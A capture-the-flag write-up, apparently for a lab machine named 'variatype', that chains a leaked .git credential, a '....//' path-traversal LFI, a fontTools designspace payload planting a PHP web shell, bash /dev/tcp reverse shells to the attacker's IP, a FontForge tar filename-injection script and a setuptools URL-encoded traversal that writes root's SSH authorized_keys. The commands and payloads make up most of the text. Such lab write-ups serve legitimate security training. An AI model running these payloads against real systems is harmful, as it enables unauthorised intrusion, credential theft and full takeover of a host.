


# Attack Path
```
anonymous (no creds)
└─► .git exposed → git-dumper → gitbot:G1tB0t_Acc3ss_2025!
    └─► LFI (download.php ....// bypass) → webroot leaked 
        └─► CVE-2025-66034 (fontTools varLib < 4.60.2)
            └─► Arbitrary write → shell.php → RCE as www-data
                └─► pspy64 → FontForge cron (UID=1000) processes uploaded files
                    └─► CVE-2024-25081 (FontForge filename injection via .tar)
                        └─► Shell as steve
                            └─► sudo python3 /opt/font-tools/install_validator.py *
                                └─► CVE-2025-47273 (setuptools %2F traversal)
                                    └─► Write to /root/.ssh/authorized_keys
                                        └─► SSH → root@variatype ✅
```
# Sommaire

- [Enumeration](#enumeration)
- [Website](#website)
	- [Subdomain Discovery](#subdomain-discovery)
	- [CVE-2025-66034](#cve-2025-66034-exploit)
	- [.git](#git)
	- [LFI](#lfi)
	- [Nginx conf files](#nginx-conf-files)
	- [CVE-2025-66034 exploit](#cve-2025-66034-exploit)
- [Shell as steve](#shell-as-steve)
	- [CVE-2024-25081](#cve-2024-25081)
	- [Persistence](#persistence)
- [Privilege Escalation](#privilege-escalation)


---

# Enumeration

```
nmap -sVC -p- 10.129.4.239 -oN scan.txt
Starting Nmap 7.93 ( https://nmap.org ) at 2026-03-17 11:05 CET
Nmap scan report for 10.129.4.239
Host is up (0.028s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey:
|   256 e0b2eb88e36add4cdbc1386546b53a1e (ECDSA)
|_  256 eed2bb814da28fdf1c50bce10e0ad122 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Did not follow redirect to http://variatype.htb/
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.25 seconds
```

```
echo '10.129.4.239 variatype.htb' | tee -a /etc/hosts
```

# Website

### Subdomain Discovery 

```
ffuf -fs 169 -c -w `fzf-wordlists` -H 'Host: FUZZ.variatype.htb' -u "http://variatype.htb/"

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://variatype.htb/
 :: Wordlist         : FUZZ: /opt/lists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.variatype.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 169
________________________________________________

portal                  [Status: 200, Size: 2494, Words: 445, Lines: 59, Duration: 32ms]
```

```
echo '10.129.4.239 portal.variatype.htb' | tee -a /etc/hosts
```


### Identify the vulnerabilities


The website let us upload file with a `.designspace` extension. There is a CVE that allows us to perform an Arbitrary File Write because of a vulnerabilty in `fonttools varLib` under the version >= 4.33.0, < 4.60.2.

Let's keep that for later.
### .git



We need authentication to continue on the panel. There is a`.git` available at `http://portal.variatype.htb/.git` which we can dump with `git-dumper`.

```
git-dumper http://portal.variatype.htb/.git ./git-dump/
```

Let's see what's inside

```
cat COMMIT_EDITMSG
security: remove hardcoded credentials
```

Apparently there is hardcoded credentials in one of the commit.

```
.git # cat logs/HEAD
0000000000000000000000000000000000000000 5030e791b764cb2a50fcb3e2279fea9737444870 Dev Team <dev@variatype.htb> 1764968277 -0500 commit (initial): feat: initial portal implementation
5030e791b764cb2a50fcb3e2279fea9737444870 753b5f5957f2020480a19bf29a0ebc80267a4a3d Dev Team <dev@variatype.htb> 1764968373 -0500 commit: fix: add gitbot user for automated validation pipeline
753b5f5957f2020480a19bf29a0ebc80267a4a3d 6f021da6be7086f2595befaa025a83d1de99478b Dev Team <dev@variatype.htb> 1764968388 -0500 commit: security: remove hardcoded credentials
6f021da6be7086f2595befaa025a83d1de99478b 753b5f5957f2020480a19bf29a0ebc80267a4a3d Dev Team <dev@variatype.htb> 1764968506 -0500 reset: moving to HEAD~1
```

We should find the creds inside the commit `753b5f5957f2020480a19bf29a0ebc80267a4a3d`

```
git show 753b5f5957f2020480a19bf29a0ebc80267a4a3d
```

```
commit 753b5f5957f2020480a19bf29a0ebc80267a4a3d (HEAD -> master)
Author: Dev Team <dev@variatype.htb>
Date:   Fri Dec 5 15:59:33 2025 -0500

    fix: add gitbot user for automated validation pipeline

diff --git a/auth.php b/auth.php
index 615e621..b328305 100644
--- a/auth.php
+++ b/auth.php
@@ -1,3 +1,5 @@
 <?php
 session_start();
-$USERS = [];
+$USERS = [
+    'gitbot' => 'G1tB0t_Acc3ss_2025!'
+];
```

And we find the credentials `gitbot`:`G1tB0t_Acc3ss_2025!`


### LFI

We are now login, but in order to exploit the CVE, we need to know the path of the website root.

Let's upload ours malicious files to see what happens on the dashboard.


We now have 2 options **View** and **Download**

When we click on view we notice there is a parameter `?f`

```
http://portal.variatype.htb/view.php?f=variabype_1ys_FRjKj_0.ttf
```

After some test, `view.php` doesn't gives us an LFI.
We can try with `download.php` but with curl so it's easier.

```
ffuf -c -w `fzf-wordlists` -u "http://portal.variatype.htb/download.php?f=FUZZ" -b "PHPSESSID=32fhjfhm0k4dfjli8ivc84dnmr" -fs 15

<SNIP>

....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1234, Words: 7, Lines: 26, Duration: 30ms]

<SNIP>
```

There is indeed an LFI. Though it's filtered, we can bypass it by doubleing our `.` and `/`.
Let's see with `curl`.

```
curl -s -b "PHPSESSID=32fhjfhm0k4dfjli8ivc84dnmr" "http://portal.variatype.htb/download.php?f=....//....//....//....//....//....//etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
steve:x:1000:1000:steve,,,:/home/steve:/bin/bash
variatype:x:102:110::/nonexistent:/usr/sbin/nologin
_laurel:x:999:996::/var/log/laurel:/bin/false
```

It worked. Now we can access the configuration files of the website to find a place to write our shell.

### Nginx conf files

The default location of the configuration file for nginx is under `/etc/nginx/nginx.conf`.

```
curl -s -b "PHPSESSID=$PHPSESSID" "http://portal.variatype.htb/download.php?f=....//....//....//....//....//....//etc/nginx/nginx.conf"

<SNIP>

        include /etc/nginx/conf.d/*.conf;
        include /etc/nginx/sites-enabled/variatype.htb;
        include /etc/nginx/sites-enabled/portal.variatype.htb;
        
<SNIP>
```

Let's see the `sites-enabled` file for the portal.

```
curl -s -b "PHPSESSID=32fhjfhm0k4dfjli8ivc84dnmr" "http://portal.variatype.htb/download.php?f=....//....//....//....//....//....//etc/nginx/sites-enabled/portal.variatype.htb"
server {
    listen 80;
    server_name portal.variatype.htb;

    root /var/www/portal.variatype.htb/public;
    index index.php;

    access_log /var/log/nginx/portal_access.log;
    error_log /var/log/nginx/portal_error.log;

    location / {
        try_files $uri $uri/ =404;
    }

    location ~ \.php$ {
        include snippets/fastcgi-php.conf;
        fastcgi_pass unix:/run/php/php-fpm.sock;
        fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
        include fastcgi_params;
    }

    location /files/ {
        autoindex off;
    }
}
```

And we got the web root directory, we can now try to write our file inside exploiting the CVE.

### CVE-2025-66034 exploit

There is a poc on github here  : https://github.com/advisories/GHSA-768j-98cg-p3fv

Following the informations we know on the target, we can craft our payload.

First we create the file containing our  php payload.

**malicious.designspace

```
<?xml version='1.0' encoding='UTF-8'?>
<designspace format="5.0">
    <axes>
        <axis tag="wght" name="Weight" minimum="100" maximum="900" default="400">
            <labelname xml:lang="en"><![CDATA[<?php system($_GET['cmd']); ?>]]]]><![CDATA[>]]></labelname>
        </axis>
    </axes>
    <sources>
        <source filename="source-light.ttf" name="Light">
            <location><dimension name="Weight" xvalue="100"/></location>
        </source>
        <source filename="source-regular.ttf" name="Regular">
            <location><dimension name="Weight" xvalue="400"/></location>
        </source>
    </sources>
    <variable-fonts>
        <variable-font name="PwnFont" filename="/var/www/portal.variatype.htb/public/shell.php">
            <axis-subsets><axis-subset name="Weight"/></axis-subsets>
        </variable-font>
    </variable-fonts>
</designspace>```
```

Then we use the given python script to create the fonts files.

**setup.py**
```
#!/usr/bin/env python3
import os

from fontTools.fontBuilder import FontBuilder
from fontTools.pens.ttGlyphPen import TTGlyphPen

def create_source_font(filename, weight=400):
    fb = FontBuilder(unitsPerEm=1000, isTTF=True)
    fb.setupGlyphOrder([".notdef"])
    fb.setupCharacterMap({})

    pen = TTGlyphPen(None)
    pen.moveTo((0, 0))
    pen.lineTo((500, 0))
    pen.lineTo((500, 500))
    pen.lineTo((0, 500))
    pen.closePath()

    fb.setupGlyf({".notdef": pen.glyph()})
    fb.setupHorizontalMetrics({".notdef": (500, 0)})
    fb.setupHorizontalHeader(ascent=800, descent=-200)
    fb.setupOS2(usWeightClass=weight)
    fb.setupPost()
    fb.setupNameTable({"familyName": "Test", "styleName": f"Weight{weight}"})
    fb.save(filename)

if __name__ == '__main__':
    os.chdir(os.path.dirname(os.path.abspath(__file__)))
    create_source_font("source-light.ttf", weight=100)
    create_source_font("source-regular.ttf", weight=400)
```

We use the python script.

```
python3 setup.py
```

And we should have the `.ttf` files.

Let's upload our files and head to `http://portal.variatype.htb/shell.php?cmd=id`.


We can now get a reverse shell with that payload

```
bash -c 'bash -i >& /dev/tcp/10.10.*.*/443 0>&1'
```

**URL Encode**
```
bash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E15%2E42%2F443%200%3E%261%27
```

```
nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.4.252.
Ncat: Connection from 10.129.4.252:59982.
bash: cannot set terminal process group (3544): Inappropriate ioctl for device
bash: no job control in this shell
www-data@variatype:~/portal.variatype.htb/public$
```

# Shell as steve

### CVE-2024-25081

After transfering `pspy64` on the target we notice the following.

```
2026/03/17 09:28:01 CMD: UID=1000  PID=4997   | /bin/bash /home/steve/bin/process_client_submissions.sh
2026/03/17 09:28:01 CMD: UID=1000  PID=4998   | /bin/bash /home/steve/bin/process_client_submissions.sh
2026/03/17 09:28:01 CMD: UID=1000  PID=4999   | /bin/bash /home/steve/bin/process_client_submissions.sh
2026/03/17 09:28:01 CMD: UID=1000  PID=5000   | /bin/bash /home/steve/bin/process_client_submissions.sh
2026/03/17 09:28:01 CMD: UID=1000  PID=5001   | /bin/bash /home/steve/bin/process_client_submissions.sh
2026/03/17 09:28:01 CMD: UID=1000  PID=5002   | timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c
import fontforge
import sys
try:
    font = fontforge.open('variabype_1ys_FRjKj_0.ttf')
    family = getattr(font, 'familyname', 'Unknown')
    style = getattr(font, 'fontname', 'Default')
    print(f'INFO: Loaded {family} ({style})', file=sys.stderr)
    font.close()
except Exception as e:
    print(f'ERROR: Failed to process variabype_1ys_FRjKj_0.ttf: {e}', file=sys.stderr)
    sys.exit(1)

2026/03/17 09:28:01 CMD: UID=1000  PID=5003   |
2026/03/17 09:28:01 CMD: UID=1000  PID=5005   | /bin/bash /home/steve/bin/process_client_submissions.sh
2026/03/17 09:28:01 CMD: UID=1000  PID=5006   | mv variabype_1ys_FRjKj_0.ttf /home/steve/processed_fonts/
2026/03/17 09:28:01 CMD: UID=1000  PID=5007   | /bin/bash /home/steve/bin/process_client_submissions.sh
2026/03/17 09:28:01 CMD: UID=1000  PID=5008   | /bin/bash /home/steve/bin/process_client_submissions.sh
2026/03/17 09:28:01 CMD: UID=1000  PID=5009   | timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c
import fontforge
import sys
try:
    font = fontforge.open('variabype_Qivw8w2DxFA.ttf')
    family = getattr(font, 'familyname', 'Unknown')
    style = getattr(font, 'fontname', 'Default')
    print(f'INFO: Loaded {family} ({style})', file=sys.stderr)
    font.close()
except Exception as e:
    print(f'ERROR: Failed to process variabype_Qivw8w2DxFA.ttf: {e}', file=sys.stderr)
    sys.exit(1)
```

fontforge is vulnerable to **CVE-2024-25081**. It doesn't sanitize the filenames during the extraction of an archive, which can be exploited to get a command execution.

To get a reverse shell we can do as follow.
https://github.com/AliElKhatteb/CVE-2024-25082_CVE-2024-25081

First we create the reverse shell bash script on the target

```
echo "bash -c 'bash -i >& /dev/tcp/10.10.15.42/4444 0>&1'" > /tmp/rev.sh
chmod +x /tmp/rev.sh
```

The we create the malicious tar archive with a python3 script.

```
nano exploit.py

import tarfile, io
malicious_name = "exploit.ttf;bash /tmp/s.sh;"
tar = tarfile.open("exploit.tar", "w")
info = tarfile.TarInfo(name=malicious_name)
info.size = 4
tar.addfile(info, io.BytesIO(b"AAAA"))
tar.close()
print("done")
```

And we run it to create the tar archive.

```
python3 exploit.py
```

We transfer it to the target and we need to wait for our listener to receive the connexion.

```
python3 -m http.server 80
```

```
wget http://10.10.15.42/exploit.tar
```

```
nc -lvnp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.4.252.
Ncat: Connection from 10.129.4.252:54126.
bash: cannot set terminal process group (5489): Inappropriate ioctl for device
bash: no job control in this shell

steve@variatype:/tmp/ffarchive-5490-1$
```

### Persistence

Now we can create an `.ssh` directory in order to connect as steve via ssh

```
ssh-keygen -t rsa -b 4096 -f steve
```

```
mkdir -p .ssh && echo 'ssh-rsa AAAAB<pub_rsa>' >> authorized_keys && chmod 700 .ssh && chmod 600 .ssh/authorized_keys
```

```
chmod 600 steve
```

```
ssh -i steve steve@10.129.4.252
steve@variatype:~$
```

# Privilege Escalation

```
sudo -l
Matching Defaults entries for steve on variatype:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User steve may run the following commands on variatype:
    (root) NOPASSWD: /usr/bin/python3 /opt/font-tools/install_validator.py *
```

We are allowed to run the script `install_validator.py` as sudo.

```
cat /opt/font-tools/install_validator.py

#!/usr/bin/env python3
"""
Font Validator Plugin Installer
--------------------------------
Allows typography operators to install validation plugins
developed by external designers. These plugins must be simple
Python modules containing a validate_font() function.

Example usage:
  sudo /opt/font-tools/install_validator.py https://designer.example.com/plugins/woff2-check.py
"""

import os
import sys
import re
import logging
from urllib.parse import urlparse
from setuptools.package_index import PackageIndex

# Configuration
PLUGIN_DIR = "/opt/font-tools/validators"
LOG_FILE = "/var/log/font-validator-install.log"

# Set up logging
os.makedirs(os.path.dirname(LOG_FILE), exist_ok=True)
logging.basicConfig(
    level=logging.INFO,
    format='%(asctime)s [%(levelname)s] %(message)s',
    handlers=[
        logging.FileHandler(LOG_FILE),
        logging.StreamHandler(sys.stdout)
    ]
)

def is_valid_url(url):
    try:
        result = urlparse(url)
        return all([result.scheme in ('http', 'https'), result.netloc])
    except Exception:
        return False

def install_validator_plugin(plugin_url):
    if not os.path.exists(PLUGIN_DIR):
        os.makedirs(PLUGIN_DIR, mode=0o755)

    logging.info(f"Attempting to install plugin from: {plugin_url}")

    index = PackageIndex()
    try:
        downloaded_path = index.download(plugin_url, PLUGIN_DIR)
        logging.info(f"Plugin installed at: {downloaded_path}")
        print("[+] Plugin installed successfully.")
    except Exception as e:
        logging.error(f"Failed to install plugin: {e}")
        print(f"[-] Error: {e}")
        sys.exit(1)

def main():
    if len(sys.argv) != 2:
        print("Usage: sudo /opt/font-tools/install_validator.py <PLUGIN_URL>")
        print("Example: sudo /opt/font-tools/install_validator.py https://internal.example.com/plugins/glyph-check.py")
        sys.exit(1)

    plugin_url = sys.argv[1]

    if not is_valid_url(plugin_url):
        print("[-] Invalid URL. Must start with http:// or https://")
        sys.exit(1)

    if plugin_url.count('/') > 10:
        print("[-] Suspiciously long URL. Aborting.")
        sys.exit(1)

    install_validator_plugin(plugin_url)

if __name__ == "__main__":
    if os.geteuid() != 0:
        print("[-] This script must be run as root (use sudo).")
        sys.exit(1)
    main()
```

The script uses the Python `setuptools` library, which is vulnerable to **CVE-2025-47273**, to download the plugin.
If the extracted name start with a `/`, `os.path.join` ignore the designed folder, allowing us to write anywhere on the target system, like creating deposing our ssh public key inside the .ssh directory of root.

Since there is filters in the script we have to URL encode ours `/`.

First let's create a new ssh key for `root`.

```
ssh-keygen -t rsa -b 4096 -f root
```

Then we copy the public key inside

```
cp root.pub root/.ssh/authorized_keys
```

And we launch our python http server.

```
python3 -m http.server 80
```

Now we just run on the target the sudo command

```
sudo /usr/bin/python3 /opt/font-tools/install_validator.py "http://10.10.15.42/%2Froot%2F.ssh%2Fauthorized_keys"
2026-03-17 10:43:21,190 [INFO] Attempting to install plugin from: http://10.10.15.42/%2Froot%2F.ssh%2Fauthorized_keys
2026-03-17 10:43:21,202 [INFO] Downloading http://10.10.15.42/%2Froot%2F.ssh%2Fauthorized_keys
2026-03-17 10:43:21,269 [INFO] Plugin installed at: /root/.ssh/authorized_keys
[+] Plugin installed successfully.
```

As we can see, we successfully writed at `/root/.ssh/authorized_keys`, we can check it by trying to connect via ssh as root.

```
ssh -i root root@10.129.4.252
Linux variatype 6.1.0-43-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.162-1 (2026-02-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Mar 17 10:43:27 2026 from 10.10.15.42
root@variatype:~#
```

And we are root.


